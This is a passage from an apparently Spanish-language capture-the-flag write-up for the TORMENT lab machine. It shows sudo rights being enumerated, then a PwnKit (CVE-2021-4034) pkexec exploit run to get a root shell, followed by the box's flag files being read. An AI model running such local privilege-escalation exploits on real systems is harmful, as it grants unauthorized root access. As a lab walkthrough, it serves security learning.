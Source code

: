 ```bash
patrick@TORMENT:~$ sudo -l
Matching Defaults entries for patrick on TORMENT:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User patrick may run the following commands on TORMENT:
    (ALL) NOPASSWD: /bin/systemctl poweroff, /bin/systemctl halt, /bin/systemctl reboot
patrick@TORMENT:~$
```

>Podemos elevar nuestros privilegios de varias maneras, vamos a ver dos.
{: .prompt-tip }

- Explotando binario SUID pkexec. 

```bash
patrick@TORMENT:/tmp$ ./CVE-2021-4034.py
Do you want to choose a custom payload? y/n (n use default payload)  n
[+] Cleaning pervious exploiting attempt (if exist)
[+] Creating shared library for exploit code.
[+] Finding a libc library to call execve
[+] Found a library at <CDLL 'libc.so.6', handle 7f5470cc94e0 at 0x7f546f88e898>
[+] Call execve() with chosen payload
[+] Enjoy your root shell
# id
uid=0(root) gid=1001(patrick) groups=1001(patrick)
# cd /root
# ls
author-secret.txt  proof.txt

# cat author-secret.txt
This is the fourth Linux box written successfully by this author.

Unlike the first three, this had no MERCY, took some DEVELOPMENT and required a sheer ton of BRAVERY.

Setting puzzles has been an author's joy, even though some of these puzzles may be rather mind-bending. The idea is that, even if we are repeatedly testing the basics, the basics can be morphed into so many different forms. The TORMENT box is a fine example.

The privilege escalation, in particular, was inspired from what people would usually learn in Windows privilege escalation --- weak service permissions. In this case, this was extended to Linux through something a little different. Before you think this is fictitious, think for a second --- how many developers have you heard became too lazy to test new configurations, and so decided to chmod 777 themselves? Also, if they can't log in as root directly, they cannot as easily modify /var/www/html, so they'd come up with silly ideas there as well.

Sigh, a New Year's eve disappeared from rushing out this box. But I think it is worth it.

Happy 2019, and many more good years beyond!

Soon I will be writing Windows boxes; these you may be able to find on Wizard-Labs, as a favour for a friend. Otherwise you can find me on my site. Root one of the earlier boxes I had to find out where this is.

# cat proof.txt
Congrutulations on rooting TORMENT. I hope this box has been as fun for you as it has been for me. :-)

Until then, try harder!
```
